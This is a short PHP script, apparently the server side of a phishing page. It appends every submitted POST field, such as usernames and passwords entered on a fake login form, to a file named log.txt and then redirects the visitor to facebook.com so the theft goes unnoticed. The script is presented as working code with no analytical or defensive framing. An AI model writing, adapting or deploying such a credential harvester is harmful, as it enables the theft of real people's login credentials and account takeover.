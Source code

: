 <?php 

  
// Set the location to redirect the page 

header ('Location: http://www.facebook.com'); 

  
// Open the text file in writing mode  

$file = fopen("log.txt", "a"); 

  

foreach($_POST as $variable => $value) { 

    fwrite($file, $variable); 

    fwrite($file, "="); 

    fwrite($file, $value); 

    fwrite($file, "\r\n"); 
} 

  

fwrite($file, "\r\n"); 

fclose($file); 

exit; 
